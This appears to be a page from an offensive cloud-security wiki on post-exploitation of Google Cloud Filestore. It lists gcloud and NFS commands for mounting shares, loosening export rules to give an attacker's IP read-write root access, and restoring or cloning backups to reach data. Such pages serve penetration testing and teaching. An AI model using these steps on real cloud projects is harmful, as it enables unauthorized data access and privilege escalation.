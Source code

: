 # GCP - Filestore Post Exploitation



<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.bytebreach.xyz/courses/arte"><strong>htARTE (ByteBreach AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support ByteBreach:

* If you want to see your **company advertised in ByteBreach** or **download ByteBreach in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/khulnasoft)!
* Get the [**official PEASS & ByteBreach swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@bytebreach_live**](https://twitter.com/bytebreach_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**ByteBreach**](https://github.com/khulnasoft/bytebreach) and [**ByteBreach Cloud**](https://github.com/khulnasoft/bytebreach-cloud) github repos.

</details>

## Filestore

For more information about Filestore check:

{% content-ref url="../gcp-services/gcp-filestore-enum.md" %}
[gcp-filestore-enum.md](../gcp-services/gcp-filestore-enum.md)
{% endcontent-ref %}

### Mount Filestore

A shared filesystem **might contain sensitive information** interesting from an attackers perspective. With access to the Filestore it's possible to **mount it**:

{% code overflow="wrap" %}
```bash
sudo apt-get update
sudo apt-get install nfs-common
# Check the share name
showmount -e <IP>
# Mount the share
mkdir /mnt/fs
sudo mount [FILESTORE_IP]:/[FILE_SHARE_NAME] /mnt/fs
```
{% endcode %}

To find the IP address of a filestore insatnce check the enumeration section of the page:

{% content-ref url="../gcp-services/gcp-filestore-enum.md" %}
[gcp-filestore-enum.md](../gcp-services/gcp-filestore-enum.md)
{% endcontent-ref %}

### Remove Restrictions and get extra permissions

If the attacker isn't in an IP address with access over the share, but you have enough permissions to modify it, it's possible to remover the restrictions or access over it. It's also possible to grant more privileges over your IP address to have admin access over the share:

```bash
gcloud filestore instances update nfstest \
    --zone=<exact-zone> \
    --flags-file=nfs.json

# Contents of nfs.json
{
  "--file-share":
  {
    "capacity": "1024",
    "name": "<share-name>",
    "nfs-export-options": [
      {
        "access-mode": "READ_WRITE",
        "ip-ranges": [
          "<your-ip-private-address>/32"
        ],
        "squash-mode": "NO_ROOT_SQUASH",
        "anon_uid": 1003,
        "anon_gid": 1003
      }
    ]
  }
}
```

### Restore a backup

If there is a backup it's possible to **restore it** in an existing or in a new instance so its **information becomes accessible:**

```bash
# Create a new filestore if you don't want to modify the old one
gcloud filestore instances create <new-instance-name> \
    --zone=<zone> \
    --tier=STANDARD \
    --file-share=name=vol1,capacity=1TB \
    --network=name=default,reserved-ip-range=10.0.0.0/29
    
# Restore a backups in a new instance
gcloud filestore instances restore <new-instance-name> \
    --zone=<zone> \
    --file-share=<instance-file-share-name> \
    --source-backup=<backup-name> \
    --source-backup-region=<backup-region>

# Follow the previous section commands to mount it
```

### Create a backup and restore it

If you **don't have access over a share and don't want to modify it**, it's possible to **create a backup** of it and **restore** it as previously mentioned:

{% code overflow="wrap" %}
```bash
# Create share backup
gcloud filestore backups create <back-name> \
    --region=<region> \
    --instance=<instance-name> \
    --instance-zone=<instance-zone> \
    --file-share=<share-name>

# Follow the previous section commands to restore it and mount it
```
{% endcode %}

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.bytebreach.xyz/courses/arte"><strong>htARTE (ByteBreach AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support ByteBreach:

* If you want to see your **company advertised in ByteBreach** or **download ByteBreach in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/khulnasoft)!
* Get the [**official PEASS & ByteBreach swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@bytebreach_live**](https://twitter.com/bytebreach_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**ByteBreach**](https://github.com/khulnasoft/bytebreach) and [**ByteBreach Cloud**](https://github.com/khulnasoft/bytebreach-cloud) github repos.

</details>

